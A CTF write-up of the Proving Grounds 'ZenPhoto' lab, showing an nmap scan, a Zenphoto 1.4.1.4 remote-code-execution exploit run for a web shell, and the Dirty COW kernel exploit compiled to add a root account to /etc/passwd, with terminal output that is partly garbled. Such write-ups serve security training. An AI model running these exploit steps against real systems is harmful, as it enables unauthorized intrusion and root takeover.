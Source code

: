 ```yaml
---
title: "Proving grounds Practice: ZenPhoto"
layout: post
date: 2024-04-28 02:00
categories: writeup
---
```


Proving grounds Practice - ZenPhoto CTF writeup.

# NMAP

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
```

## 80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))

http://192.168.209.41/test/

```sh
[21:42:10] Starting: 
[21:42:12] 200 -   75B  - /index
[21:42:22] 301 -  315B  - /test  ->  http://192.168.209.41/test/
```

Upon reviewing the page source it was found that the website is using zenphoto version 1.4.1.4 [8157] (Official Build). The version is vulnerable to [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/18083).

```sh
naveenj@hackerspace:[21:58]~/proving_grounds/ZenPhoto/exploit$ php exploit 192.168.209.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# 
```

## Privilege Escalation
   
Vulnerable to [CVE-2016-5195] dirtycow 2 exploit.

```text
Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

### Exploitation

Find the exploit [here](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@offsecsrv:/tmp$ ls
dirty.c  lp.sh	vmware-root
www-data@offsecsrv:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@offsecsrv:/tmp$ ls
dirty  dirty.c	lp.sh  vmware-root
www-data@offsecsrv:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7860000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@offsecsrv:/tmp$ cat /emadvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
tc
```

Check /etc/passwd file for the root user presence.

```sh
www-data@offsecsrv:/tmp$ cat /etc/passwd
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash	#user created
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
```

**Root Obtained**

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).